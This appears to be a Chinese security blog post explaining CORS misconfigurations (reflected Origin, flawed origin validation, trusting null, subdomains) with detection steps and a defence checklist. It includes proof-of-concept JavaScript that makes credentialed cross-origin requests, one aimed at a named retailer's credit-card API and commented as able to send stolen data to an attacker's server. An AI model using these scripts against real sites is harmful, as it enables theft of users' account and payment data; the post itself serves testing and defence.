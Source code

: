 ```yaml
---
title: CORS漏洞检测和利用方式
comments: true
date: 2022-01-12 21:10:57
tags: ["CORS漏洞", "跨域"]
categories:
- 渗透测试
cover:
top_img:
description:
---
```


## 简介

CORS全称`Cross-Origin Resource Sharing`, 跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的jsonp只能get请求，被发明出来就是为了干掉JSONP的，因为用的多，其安全问题也更加普遍。

解决了跨域情况下资源的请求与传输。



## CORS实现原理



> 有个常见的关于同源策略的误区需要指出一下，同源策略并不限制请求的发起和响应，只是浏览器拒绝了js对响应资源的操作



CORS本质上就是使用各种头信息让浏览器与服务器之间进行交流，上面提到的名单就是用下面的http头字段来控制的：

![cors的http字段](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220112212319982.png)

其中比较重要的相应头为：

```
Access-Control-Allow-Origin: http://a.com  表示服务端接受来自http://a.com的跨域请求
Access-Control-Allow-Credentials: true  表示是否允许发送Cookie，true即发送cookie
```





## CORS常见安全问题

实际中我们可能会遇到各种场景，所以CORS也很容易出现配置上的安全问题，大概有如下几种：

### 1 反射Origin头

当管理员想允许多个域名跨域请求时，以下写法都是不允许的

```bash
Access-Control-Allow-Origin: http://a.com, http://c.com
#或者
Access-Control-Allow-Origin: http://*.a.com
```

因为CORS标准规定，Access-Control-Allow-Origin**只能配置为单个origin, null或***。

有些开发者为了方便，直接使用请求者的origin作为Access-Control-Allow-Origin的域名，例如下面的Nginx配置:

```bash
add_header "Access-Control-Allow-Origin" $http_origin;
add_header "Access-Control-Allow-Credentials" "true";

# 这种配置非常危险，相当于任意网站可以直接跨域读取其资源内容。
```





### 2 Origin 校验错误

前面那种反射Origin的做法过于暴力，一般不可取，常用做法是通过自定义规则来校验Origin头，但是在校验过程中也会出现错误。这些错误可以分为四类：

- **前缀匹配**：例如想要允许example.com访问，但是只做了前缀匹配，导致同时信任了example.com.attack.com的访问。
- **后缀匹配**：例如想要允许example.com访问，由于后缀匹配出错，导致允许attackexample.com访问。
- **没有转义`.`**：例如想要允许www.example.com访问，但正则匹配没有转义`.`，导致允许wwwaexample.com访问。
- **包含匹配**：例如想要允许example.com，但是Origin校验出错，出现允许ample.com访问。



### 3 信任null

当配置信任名单为null，可以用来和本地file页面共享数据，如下所示：

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

但是攻击者也可以构造Origin为null的跨域请求，比如通过iframe sandbox：

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<script>
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open("GET", "http://www.a.com/a.php", true);
xhr.withCredentials = true;
xhr.send();</script>'>
</iframe>
```



### 4 HTTPS域信任HTTP域

但是如果该HTTPS网站配置了CORS且信任HTTP域，那么中间人攻击者可以先劫持受信任HTTP域，然后通过这个域发送跨域请求到HTTPS网站，间接读取HTTPS域下的受保护内容.



### 5 信任自身全部子域

很多网站为了方便会将CORS配置为信任全部自身子域，这种配置会扩大子域 XSS的危害。

比如某子站存在xss时，可以通过此xss发送跨域请求，从而获取敏感内容。



### 6 Origin:*与 Credentials:true 共用

`Access-Control-Allow-Origin:*`用于表示允许任意域访问，这种配置只能用于共享公开资源。

所以下面这种配置是错误的，浏览器不允许这两种配置同时出现。(对于共享公开资源，不应该需要身份认证)

```
Access-Control-Allow-Origin: * 
Access-Control-Allow-Credentials: true 
```



### 7 缺少Vary: Origin头

如果一个资源享有多个域名，它需要对不同域名的请求包生成不同的Access-Control-Allow-Origin头。如果一个请求的响应被缓存，且返回中没有Vary: Origin字段，可能会导致其它域名的请求失效。

比如c.com同时允许a.com和b.com共享。c.com资源内容首先被a.com脚本跨域访问后被缓存，其中缓存响应头为`Access-Control-Allow-Origin:http://a.com`这时，b.com脚本则不能读取缓存响应内容，因为缓存响应头是允许a.com共享，而不是b.com。





## 检测方式

F1.curl访问网站　　

```
curl http://www.xpshuai.cn -H "Origin: https://test.com" -I
```

检查返回包的 Access-Control-Allow-Origin 字段是否为https://test.com



F2.burpsuite发送请求包，查看返回包



F3.也可以用开源工具：https://github.com/chenjj/CORScanner



F4.对于网站漏洞的挖掘可以使用burp，先勾选上proxy --> options --> Origin --> match and replace里面的Add spoofed CORS origin。

然后在网站观察功能点，最后在HTTP history来筛选带有CORS头部的值，然后用以上工具查看是否有配置缺陷。

检测到CORS配置错误以后，以下有一份poc可用来写报告（感谢大佬）：

```javascript
<script>
    //以受害者身份，发送一个跨域请求给目标url
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //由于目标站点的CORS配置错误，我们可以读取到相应包
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //展示相应包到这个页面上，作为hacker还可以将内容发送到自己的服务器
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>

```



## 危害

1.同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。

​	还可以获取cookie，针对http-only js代码无法读取的情况



2.结合xss漏洞利用cors漏洞，针对http_only js代码无法读取











## 漏洞防范

- 不要盲目反射Origin头
- 严格校验Origin头，避免出现权限泄露
- 不要配置Access-Control-Allow-Origin: null
- HTTPS网站不要信任HTTP域
- 不要信任全部自身子域，减少攻击面
- 不要配置Origin:*和Credentials: true
- 增加Vary: Origin头







## 参考文章

[CORS介绍及其漏洞检测 - SAUCERMAN (saucer-man.com)](https://saucer-man.com/information_security/331.html)

